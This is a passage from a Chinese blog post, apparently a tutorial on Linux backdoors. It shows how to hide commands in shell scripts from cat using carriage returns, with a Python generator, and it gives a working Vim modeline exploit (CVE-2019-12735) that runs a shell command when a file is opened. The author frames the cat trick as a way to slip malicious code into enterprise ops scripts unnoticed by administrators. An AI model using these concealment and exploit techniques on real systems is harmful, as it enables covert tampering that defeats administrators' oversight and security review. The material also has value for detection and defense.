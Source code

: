 ### 0x06 Cat隐藏

刚刚在cron里面提到了cat的一个缺陷，可以利用这个缺陷隐藏恶意命令在一些脚本中：这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用cat的缺陷还可以使管理员无法发现脚本被做手脚。

cat其实默认使用是支持一些比如 \r 回车符 \n 换行符 \f 换页符、也就是这些符号导致的能够隐藏命令。

使用python生成带有换行符的内容sh：

```
Copy``cmd_h = "echo 'You forgot to check `cat -A`!' > oops" # hidden
cmd_v = "echo 'Hello world!'"                         # visible

with open("test.sh", "w") as f:
output = "#!/bin/sh\n"
output += cmd_h + ";" + cmd_v + " #\r" + cmd_v + " " * (len(cmd_h) + 3) + "\n"
f.write(output)`` 
```

使用 py 生成了一个 test.sh 脚本，同目录下只有他本文件，cat查看一下：

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220616509-925341340.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220616509-925341340.png)

执行一下test.sh：

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220738695-372605639.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220738695-372605639.png)

cat -A 再次查看一下：

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220835294-1217326615.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220835294-1217326615.png)

其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat -A 查看root文件的话就可以看到计划任务的真正内容了。

### 0x07 Vim后门

#### vim modeline(CVE-2019-12735)

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim默认关闭modeline。

开启命令：

```
Copy`vim ~/.vimrc
set modeline` 
```

当前目录下创建文件：

```
Copy`echo ':!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' > hello.txt
vim hello.txt` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165831251-1080934852.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165831251-1080934852.png)
